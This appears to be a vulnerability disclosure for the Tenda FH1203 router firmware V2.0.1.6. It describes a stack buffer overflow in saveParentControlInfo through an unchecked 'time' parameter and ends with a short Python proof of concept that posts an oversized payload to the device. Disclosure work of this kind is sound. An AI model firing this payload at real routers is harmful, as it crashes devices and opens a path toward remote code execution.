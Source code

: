 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240319223137445](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223137445.png)

it reads in a user-provided parameter `time`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240319223102122](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223102122.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240319223110983](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223110983.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320014324581.png)

